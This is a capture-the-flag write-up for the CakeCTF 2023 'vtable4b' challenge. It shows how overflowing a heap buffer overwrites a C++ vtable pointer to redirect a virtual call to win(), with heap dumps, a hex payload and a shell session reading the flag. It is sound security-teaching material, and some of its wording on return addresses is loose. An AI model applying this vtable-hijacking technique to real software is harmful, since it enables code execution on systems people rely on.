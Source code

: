 # vtable4b

## Source

Do you understand what vtable is?

nc vtable4b.2023.cakectf.com 9000
* The flag exists somewhere in / directory.

## Challenge

```
Today, let's learn how to exploit C++ vtable!
You're going to abuse the following C++ class:

  class Cowsay {
  public:
    Cowsay(char *message) : message_(message) {}
    char*& message() { return message_; }
    virtual void dialogue();

  private:
    char *message_;
  };

An instance of this class is allocated in the heap:

  Cowsay *cowsay = new Cowsay(new char[0x18]());

You can
 1. Call `dialogue` method:
  cowsay->dialogue();

 2. Set `message`:
  std::cin >> cowsay->message();

Last but not least, here is the address of `win` function which you should call to get the flag:
  <win> = 0x5640a00eb61a

1. Use cowsay
2. Change message
3. Display heap
```

### Finding a path
1. The win function will help us get the flag so we have to call it.
2. We can display the heap to see addresses of the return calls.
3. We can change a value in the heap - we can use this to override return calls.
4. We can call the `cowsay->dialogue()` function with option 1 , so we have to change the return address of that.

### Display Heap

```

  [ address ]    [ heap data ]
               +------------------+
0x55aef2fe5ea0 | 0000000000000000 |
               +------------------+
0x55aef2fe5ea8 | 0000000000000021 |
               +------------------+
0x55aef2fe5eb0 | 0000000000000000 | <-- message (= '')
               +------------------+
0x55aef2fe5eb8 | 0000000000000000 |
               +------------------+
0x55aef2fe5ec0 | 0000000000000000 |
               +------------------+
0x55aef2fe5ec8 | 0000000000000021 |
               +------------------+
0x55aef2fe5ed0 | 000055aef2d76ce8 | ---------------> vtable for Cowsay
               +------------------+                 +------------------+
0x55aef2fe5ed8 | 000055aef2fe5eb0 |  0x55aef2d76ce8 | 000055aef2d736e2 |
               +------------------+                 +------------------+
0x55aef2fe5ee0 | 0000000000000000 |                 --> Cowsay::dialogue
               +------------------+
0x55aef2fe5ee8 | 000000000000f121 |
               +------------------+

```

- The pointer to vtable for Cowsay is at address `0x55aef2fe5ed0`
- `Cowsay->dialogue()` function is calling the address stored in the Cowsay vtable which has a pointer at `0x55aef2fe5ed0`

## Pwning

1. Change the pointer at `0x55aef2fe5ed0` to make the program believe the vtable of Cowsay is at a different location - say `0x55aef2fe5ed8`, the next address.
2. Change the value of the new address `0x55aef2fe5ed0` is pointing to so that it calls `win()` instead of `Cowsay->dialogue()`

- We can do this by sending a value so big in message that it overrides the next addresses 

### Payload crafting

``` Payload = b'' ```

- All adresses before `0x55aef2fe5ed0` shall remain untouched. 
``` Payload += bytes.fromhex('0000000000000000')[::-1] + bytes.fromhex('0000000000000000')[::-1] + bytes.fromhex('0000000000000000')[::-1] + bytes.fromhex('0000000000000021')[::-1] ```

- Overwriting the pointer in vtable address to `0x55aef2fe5ed8`.
``` Payload += bytes.fromhex('000055aef2fe5ed8')[::-1] ```

- Overwriting the pointer in dialogue() call address to `win()` address = `0x55aef2d7361a`
``` Payload += bytes.fromhex('000055aef2d7361a')[::-1] ```

### Sending Payload
```

  [ address ]    [ heap data ]
               +------------------+
0x55aef2fe5ea0 | 0000000000000000 |
               +------------------+
0x55aef2fe5ea8 | 0000000000000021 |
               +------------------+
0x55aef2fe5eb0 | 0000000000000000 |
               +------------------+
0x55aef2fe5eb8 | 0000000000000000 |
               +------------------+
0x55aef2fe5ec0 | 0000000000000000 |
               +------------------+
0x55aef2fe5ec8 | 0000000000000021 |
               +------------------+
0x55aef2fe5ed0 | 000055aef2fe5ed8 | ---------------> vtable for Cowsay (corrupted)
               +------------------+                 +------------------+
0x55aef2fe5ed8 | 000055aef2d7361a |  0x55aef2fe5ed8 | 000055aef2d7361a |
               +------------------+                 +------------------+
0x55aef2fe5ee0 | 0000000000000000 |                 --> <win> function
               +------------------+
0x55aef2fe5ee8 | 000000000000f121 |
               +------------------+
```
- The Heap has changed and the Cowsay->dialogue() fucntion will call win() function now.

- Call the function and after getting the shell find the flag

```
>> cd ..
>> ls
app
bin
boot
dev
etc
flag-806cb9c9719379667ca5616d9c8210f1.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
>> cat flag-806cb9c9719379667ca5616d9c8210f1.txt
CakeCTF{vt4bl3_1s_ju5t_4n_arr4y_0f_funct1on_p0int3rs}
```

## Flag

The flag is `CakeCTF{vt4bl3_1s_ju5t_4n_arr4y_0f_funct1on_p0int3rs}`